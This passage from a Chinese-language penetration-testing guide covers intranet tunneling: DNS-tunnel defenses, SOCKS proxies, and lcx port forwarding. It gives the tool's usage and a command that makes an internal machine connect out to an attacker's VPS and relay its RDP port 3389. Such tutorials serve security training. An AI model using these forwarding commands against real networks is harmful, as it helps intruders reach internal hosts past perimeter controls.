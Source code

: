 （3）使用 DNS 隧道

客户端和服务端位于同一局域网内，直接使用局域网 IP 进行访问即可。


**- 防御策略 -**

1. 禁止网络中的任何用户向外部服务器发送 DNS 请求，只允许与受信任的 DNS 服务器通信。

2. 跟踪用户的 DNS 查询次数，达到阈值后生成报告。

3. 阻止 ICMP 、特征识别等。

## 传输层隧道技术

### SOCKS 代理

SOCKS 是一种网络传输协议，主要用于客户端与外网服务器之间通讯的中间传递。SOCKS 是"SOCKetS"的缩写。

SOCKS4 代理协议可以说是对 HTTP 代理协议的加强，它不仅是对 HTTP 协议进行代理，而是对所有向外的连接进行代理，是没有协议限制的。也就是说，只要你向外连接，它就给你代理，并不管你用的是什么协议，极大的弥补了 HTTP 代理协议的不足。SOCKS5 代理协议又对前一版进行了修改，增加了支持 UDP 代理及身份验证的功能。它不是“协议代理”，所以它会对所有的连接进行代理，而不管用的是什么协议。


#### lcx 端口转发

常见命令：

```cmd
[Usage of Packet Transmit:]
  lcx.exe -<listen|tran|slave> <option> [-log logfile]

[option:]
  -listen <ConnectPort> <TransmitPort>
  -tran   <ConnectPort> <TransmitHost> <TransmitPort>
  -slave  <ConnectHost> <ConnectPort> <TransmitHost> <TransmitPort>
```

- **端口转发（slave + listen）**

```
-slave  <ConnectHost> <ConnectPort> <TransmitHost> <TransmitPort>
-slave  <vps_ip> <vps_port> <target_ip> <target_port> # 监听->转发
```

此时两个端口都处于客户端模式，lcx.exe 会建立到 ConnectHost 主机的 ConnectPort 端口的 TCP 连接，假设使用的本地端口是 RandomPort1，若成功，则会接着建立到 TransmitHost 主机的 TransmitPort 端口的 TCP 连接，假设使用的本地端口是 RandomPort2，若成功，则开始端口转发，互换 RandomPort1 和 RandomPort2 接受/发送的数据，将 ConnectPort 流量转发到 TransmitPort。RandomPort1 和 RandomPort2 都是随机的未使用端口。

```cmd
-listen <ConnectPort> <TransmitPort>
-listen <监听端口> <转发端口> # 监听->转发
```

此时两个端口都处于服务器模式，lcx.exe 分别监听 ConnectPort 和 TransmitPort，当有两个客户端分别与 ConnectPort 和 TransmitPort 建立连接时，端口转发开始工作，互换 ConnectPort 和 TransmitPort 接受/发送的数据，将 ConnectPort 流量转发到 TransmitPort。

内网机器执行执行：

```cmd
lcx.exe -slave vps_ip 4444 127.0.0.1 3389
```
